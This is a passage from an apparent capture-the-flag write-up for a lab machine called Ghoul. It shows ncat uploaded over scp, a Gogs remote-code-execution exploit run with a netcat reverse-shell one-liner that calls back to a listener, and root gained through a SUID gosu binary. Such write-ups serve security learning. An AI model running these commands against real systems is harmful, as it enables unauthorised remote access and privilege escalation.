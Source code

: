 After having uploaded netcat through scp :

<pre> scp -P9000 -i id_rsa ./ncat kaneki_pub@127.0.0.1:/tmp</pre>

and having started a local listener we run the following command:

<pre>python3 gogsownz.py http://127.0.0.1:9100/ -C 'AogiriTest:test@aogiri123' --rce 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.18.0.200 8000 >/tmp/f'  --cleanup</pre>

And I am git on 172.18.0.2!

![](/images/Ghoul/root_9.png)

Enumerating the system I noticed that there is only one user except root, which git, which seems mandatory for Gogs. This seems pointless so go on with enumeration!
Let's try with classical Linux enumeration files using  https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
Running enumeration for SUID binaries we see something interesting:

<pre>/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chage
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/expiry
<b>/usr/sbin/gosu</b>
/bin/su</pre>

![](/images/Ghoul/gosu_10.png)

So just running:

<pre>gosu root bash</pre>

allows to become root.

 Going into the /root folder I can see interesting information:

 ![](/images/Ghoul/root_12.png)